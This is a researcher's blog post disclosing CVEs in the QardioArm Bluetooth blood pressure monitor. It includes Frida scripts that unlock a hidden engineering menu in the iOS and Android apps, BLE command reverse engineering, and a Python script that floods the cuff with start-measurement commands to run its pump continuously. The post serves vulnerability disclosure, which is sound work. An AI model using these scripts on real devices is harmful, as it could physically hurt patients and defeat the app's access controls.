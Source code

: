 ```yaml
---
layout: post
title: Reversing the QardioArm
---
```

![Untitled](/assets/blinko-001.png)

This is a two-part blog post disclosing the first set of CVEs *(CVE-2025-20615, CVE-2025-23421, and CVE-2025-24836)* for the QardioArm, a wireless blood pressure monitor. I was first interested in the device because of its hardware, which I will discuss in another blog post. 

### Part 0x1 - Exposed Credentials

The mobile application was simple. You create a username and password and login to the application to begin pairing and using the QardioArm device. Though you can do the same for any of their mobile app-supported devices.

I started by decrypting and pulling the IPA onto my laptop. My main goal was to see what juicy information I could find inside the compiled application. To my surprise, there was a plist file with more than one set of production-level credentials. I will leave that exercise to the reader…

After finding this plist file I incrementally logged into each set of credentials. One set exposed an interesting Menu option. I found that an engineering panel was present in the App Route. This was found in the `Qardio.AppRoutes` class and initialized the `-[Engineering init]` process that could be used to access the engineering menu. 

This menu allowed for the user to send commands to the QardioArm device via the mobile application. Seems like a feature that was not intended to be in a production application. Using [mrmacete’s](https://x.com/bezjaje) objc-method-observer [script](https://www.notion.so/Reversing-the-Qardio-ARM-188d977325a9804fa647fe83f5cffa85?pvs=21). I was able to trace the initialization process of this object. 

```python
(0x28149ba40)  -[EngineeringMenuItem init]
0x104842258 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!+[MenuItem menuItem]
0x10482ca40 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewDataSource items]
0x10482c6d8 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewDataSource loadItems]
0x1048a5124 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewController showMenu]
0x1048e27fc /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[QardioMenuViewController viewDidAppear:]
0x1a02276c0 UIKitCore!-[UIViewController _setViewAppearState:isAnimating:]
0x1a04224e8 UIKitCore!-[UIViewController __viewDidAppear:]
0x1a0228f18 UIKitCore!-[UINavigationController viewDidAppear:]
0x1a02276c0 UIKitCore!-[UIViewController _setViewAppearState:isAnimating:]
0x1a04224e8 UIKitCore!-[UIViewController __viewDidAppear:]
0x1a0422394 UIKitCore!-[UIViewController _endAppearanceTransition:]
0x1a0421d44 UIKitCore!__48-[UIPresentationController transitionDidFinish:]_block_invoke
0x1a03a8558 UIKitCore!-[_UIAfterCACommitBlock run]
0x1a03a8494 UIKitCore!-[_UIAfterCACommitQueue flush]
0x1a03a8398 UIKitCore!_runAfterCACommitDeferredBlocks
0x1a02569a4 UIKitCore!_cleanUpAfterCAFlushAndRunDeferredBlocks
RET: <EngineeringMenuItem: 0x28149ba40>
```

In iOS the responsible class method is `+[MenuCollectionViewDataSource items]`. You can use the script to add the EngineeringMenuItem. A QardioArm device needs to be paired to send commands over the console.

```swift
if (ObjC.available) {
    Interceptor.attach(ObjC.classes.MenuCollectionViewDataSource["- items"].implementation, {
        onLeave(retval) {
            try {
                let items = ObjC.Object(retval);
                let mutableItems = ObjC.classes.NSMutableArray.alloc().initWithArray_(items);
                mutableItems.addObject_(ObjC.classes.EngineeringMenuItem.alloc().init());
                retval.replace(mutableItems);
            } catch (e) {
                console.log("[!] Error: " + e);
            }
        }
    });
}
```

In Android, the responsible class is `com.getqardio.android.mvp.MvpApplication` and the boolean type `c0` needs to be changed to true. It took a lot of poking and prodding in jadx-gui to find the right boolean value. You can use the following Frida script to enable the engineering console with any user.  

```swift
Java.perform(function() {
    var MvpApplication = Java.use("com.getqardio.android.mvp.MvpApplication");

    MvpApplication.c0.implementation = function() {
        console.log("[*] Overriding c0() to return TRUE");
        return true;
    };
});
```

![Untitled](/assets/qardioAndroid.png)

### Part 0x2 - Chars and CMDs

Onto reversing the unencrypted Bluetooth connection with the QardioArm device. This device uses a small microcontroller powered by four AAA batteries to engage a small pump and start the blood pressure measurement process. If you are interested in the general schematics of the device you can find all internal details on the FCC website. I may dump the microcontroller firmware on my GitHub at a later point for anyone interested. 

Each start measurement command is sent over a Bluetooth connection to the mobile application. The results are displayed in the application dashboard, showing the patient's corresponding values to the clinician. 

My next goal was to obtain the UUID identified for the BLE characteristic, the property assigned to the characteristic, and the value of the characteristic length. iOS uses the [CBCharacteristic](https://developer.apple.com/documentation/corebluetooth/cbcharacteristic) class to send commands over Bluetooth. So using a custom Frida script I traced the value of each and began the reversing process. Using my script I was able to observe the following output when connecting the QardioArm device and starting a command:

```swift
[*] Writing value to characteristic: <CBCharacteristic: 0x280e95bc0, UUID = 583CB5B3-875D-40ED-9098-C39EB0C1983D, properties = 0x18, value = (null), notifying = NO> Value: {length = 2, bytes = 0xf101} Type: 0x0
[*] Writing value to characteristic: <CBCharacteristic: 0x280e95bc0, UUID = 583CB5B3-875D-40ED-9098-C39EB0C1983D, properties = 0x18, value = (null), notifying = NO> Value: {length = 2, bytes = 0xf102} Type: 0x0
```

Based on this information:

- The UUID `583CB5B3-875D-40ED-9098-C39EB0C1983D` is the identifier for the BLE characteristic that the data is being written to.
- The value of the data written to the characteristic is of `{length = 2, bytes = 0xf101}` the data is `0xF101`.

For sanity grepping for this UUID in the compiled application binary or using Hopper we can observe the following:

```swift
❯ strings Qardio | grep -i 583CB5B3-875D-40ED-9098-C39EB0C1983D -A 10 -B 10
EnvelopeTransmissionFailureRangeStartKey
EnvelopeTransmissionFailureRangeEndKey
EnvelopeTransmissionFailureRealtimeKey
kBLEServiceBluetoothPowerChanged
powerIsOn
com.getqardio.blequeue
v32@?0@"NSString"8@"<BLEService>"16^B24
QardioARM
QardioARM 2
1810
583CB5B3-875D-40ED-9098-C39EB0C1983D
712F0003-6CE1-4447-994C-D85E078F6BF5
2A35
23810
v32@?0@"NSString"8@"NSDate"16^B24
%d%d%d
QardioCoreDeviceStateKey
/Users/########/Documents/work/qardio-ios/QardioBLE/CBPeripheral+CoreServiceRequests.m
-[CBPeripheral(CoreServiceRequests) qd_requestMissedEnvelopes:oldestEnvelope:nextEnvelope:]
CoreServiceCharacteristcs: ERROR! This is really too bad, iOS lost data, lastStored < oldestEnvelope
CoreServiceCharacteristcs: ERROR! Something has gone terribly wrong, lastStored > nextEnvelope.
```

Hooper has a direct string cross-reference in the following class `BPDService`:

```swift
___CFConstantStringClassReference, 0x7c8, a583cb5b3875d40, 0x24 ; "583CB5B3-875D-40ED-9098-C39EB0C1983D", DATA XREF=-[BPDService peripheral:didDiscoverCharacteristicsForService:error:]+612, -[BPDService peripheral:didUpdateValueForCharacteristic:error:]+2720
```

On the Android side you can see the following value in the `BleBPDataProvider` class:

```swift
    static {
        UUID fromString = UUID.fromString("00001810-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString, "fromString(\"00001810-0000-1000-8000-00805f9b34fb\")");
        j = fromString;
        UUID fromString2 = UUID.fromString("00002a35-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString2, "fromString(\"00002a35-0000-1000-8000-00805f9b34fb\")");
        k = fromString2;
        UUID fromString3 = UUID.fromString("00002a26-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString3, "fromString(\"00002a26-0000-1000-8000-00805f9b34fb\")");
        l = fromString3;
        UUID fromString4 = UUID.fromString("00002a28-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString4, "fromString(\"00002a28-0000-1000-8000-00805f9b34fb\")");
        m = fromString4;
        n = UUID.fromString("583CB5B3-875D-40ED-9098-C39EB0C1983D");
        o = UUID.fromString("00001810-0000-1000-8000-00805f9b34fb");
    }
```

Next, after reversing the command's value and the proper UUID, my main task was to create an automation script and then send a `startMeasurement` command.

### Part 0x3 - Custom Scripting

Below is the custom script I wrote, which checks for the device name, connects to the UUID, and sends the write command `f101` 20000 times. This floods the device and forces it to run the motor continuously. 

[Video](https://youtu.be/y3s-3RQ-J2A) POC.

```swift
import asyncio
import logging
from bleak import BleakScanner, BleakClient

# Configure logging
logging.basicConfig(level=logging.DEBUG, format='%(asctime)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)

DEVICE_NAME = "QardioARM"
CHAR_UUID = "583cb5b3-875d-40ed-9098-c39eb0c1983d"
DATA_TO_WRITE = bytes.fromhex('f101')  # Ensure correct format

async def connect_and_write():
    logger.info("Scanning for devices...")
    devices = await BleakScanner.discover()

    device = next((dev for dev in devices if dev.name == DEVICE_NAME), None)
    if not device:
        logger.error(f"Device named {DEVICE_NAME} not found.")
        return

    async with BleakClient(device.address) as client:
        await client.connect()
        logger.info(f"Connected to {DEVICE_NAME}. Writing data to characteristic...")

        # Loop to write data 20000 times
        for i in range(20000):
            await client.write_gatt_char(CHAR_UUID, DATA_TO_WRITE, response=True)
            logger.info(f"Data written successfully {i+1} times. Waiting for device to process...")
            await asyncio.sleep(0.5)  # Delay to avoid overwhelming the device

        logger.info("Completed all write operations. Disconnecting...")

# Run the async function
asyncio.run(connect_and_write())
```

### Conclusion

Overall the disclosure timeline for these CVEs took about 5+ months. Thanks to VINCE and CISA for helping publish the details. The vendor, Qardio was ultimately unresponsive, I even tried reaching out to one of their developers over LinkedIn. They informed me the company is now bankrupt.

In the next blog post, I will discuss analyzing the static bin file from the mobile application and flashing the firmware to an ESP32-C3 dev board.
